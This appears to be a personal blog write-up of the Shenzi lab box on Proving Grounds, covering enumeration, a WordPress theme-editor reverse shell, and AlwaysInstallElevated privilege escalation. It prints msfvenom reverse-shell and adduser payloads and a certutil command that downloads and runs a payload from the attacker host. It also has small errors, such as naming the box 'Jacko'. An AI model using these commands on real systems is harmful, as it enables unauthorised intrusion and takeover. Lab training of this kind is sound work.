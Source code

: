 ```yaml
---
layout: writeup
title: Shenzi - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Shenzi Box from Proving Grounds
image: # /assets/images/Shenzi/Shenzi1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, AlwaysInstallElevated, .msi]
---
```


Today I'm doing a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Jacko, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.229.55 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Before jumping into the web ports, I check for anonymous login on FTP and SMB. I can't authenticate to FTP, but I can use the SMB share `Shenzi` and find some goodies. 
![Shenzi1.png](/assets/images/Shenzi/Shenzi1.png){: .responsive-image}

The passwords.txt file contains these lines:
```
5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

That could be something. The passwords.txt file also says the creds for the MySQL service are `root: `, but I think that's default. Plus I can't use it to log in remotely. I then see this in the readme_en.txt file:

```
4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
```

I'm not sure if that's a default setting, but it's something to keep an eye on. I google the contents of the why.tmp file, and it looks like this is in a default file in the `xampp\tmp\` directory for `xampp`, which could be good information. 

At that point I check the web ports, particularly 80 and 443. Both show the default page for XAMPP (though only when requesting `https://$IP`, simply appending `:443` shows an error page.) 
![Shenzi2.png](/assets/images/Shenzi/Shenzi2.png){: .responsive-image}

I run a directory search on both ports, but I don't find much. Clicking around I find the `/dashboard/phpinfo.php` page which shows that the user is `shenzi`. I don't see much else in this page, but maybe I can do something with the creds I found, potentially even substituting `shenzi` for `admin` if I can't get anything for `admin`. 

![Shenzi3.png](/assets/images/Shenzi/Shenzi3.png){: .responsive-image}

I can't find anything with the creds, so I go back over all of the ports and attempt to find something I miss, but I can't. At that point I try to brute force directories again, keeping in mind that there should be some kind of wordpress service, because we did clearly find evidence of it in the passwords.txt file. The key here is to try `/shenzi` as a directory. We won't find any evidence of this, but that's the next step. It's important to keep in mind that these lab boxes *are* exploitable, so if we can't find anything, it may be time to guess something relatively easy. 

![Shenzi4.png](/assets/images/Shenzi/Shenzi4.png){: .responsive-image}

We can visit the login page at `http://192.168.239.55/shenzi/wp-login` and log in with the found credentials of `admin:http://192.168.239.55/shenzi/wp-login`. There are a few different paths to take at this point, but one of the simplest is to go to Appearance -> Theme Editor -> 404 Template and change it to a PHP reverse shell like so:
![Shenzi5.png](/assets/images/Shenzi/Shenzi5.png){: .responsive-image}

I am using the Ivan Sincek shell which is available from [revshells](revshells.com). After that we can simply set up a listener on the appropriate port and visit `http://192.168.239.55/shenzi/wp-admin/404.php` in the browser. I used port 445.

![Shenzi6.png](/assets/images/Shenzi/Shenzi6.png){: .responsive-image}

And we have a shell for the `shenzi` user. After that I grab local.txt from the user's Desktop, check for privileges with `whoami /priv`(nothing), and download then execute winpeas. One thing that jumps out quickly is the `Checking AlwaysInstallElevated` section which says that permission is set to 1 in both HKLM and HKCU. 

![Shenzi7.png](/assets/images/Shenzi/Shenzi7.png){: .responsive-image}

Per [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) "If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) `*.msi` files as `NT AUTHORITY\SYSTEM`". Fortunately, we can create a .msi file using msfvenom, transfer it to the target machine using `certutil`, and execute it (after starting a listener). 
- From kali - `msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.240 lport=443 -f msi > shell443.msi`
- From target - `certutil -f -split -urlcache http://192.168.45.240/shell443.msi`
- From target - `.\shell443.msi`

![Shenzi8.png](/assets/images/Shenzi/Shenzi8.png){: .responsive-image}

And we catch the shell with the `nt authority\system` shell and are able to check the proof.txt file on the Administrator Desktop. Simple as. 

### Lessons Learned
It's a pretty simple box. Really the only two things to take note of here are:
- Make sure to use names you find to guess with. This one was a bit annoying because I feel like it's probably not all that realistic. It's a bit CTF-y to have a hidden wordpress site within a directory, especially one we have no other references to. I guess we did find creds that were explicitly for a wordpress site. Idk. I suspect this is the only reason that the Proving Grounds community rated this Hard instead of Easy. 
- When you have the appropriate `AlwaysInstallElevated` permissions, you can use a .msi file to your advantage. I used a reverse shell, but there are other possibilities such as using it to create a new user. This is explicitly called out on the linked [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) page, and it looks like this: `msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi` for example. 

### Remediation Steps
- Get the password file off of the SMB server. It shouldn't be in plaintext anywhere, but it certainly shouldn't be publicly accessible. 
- The SMB server should require authentication. 
- Disable the AlwaysInstallElevate permissions for the shenzi user. Maybe there could be a reason for this, but it shouldn't be available for a user hosting the wordpress site. 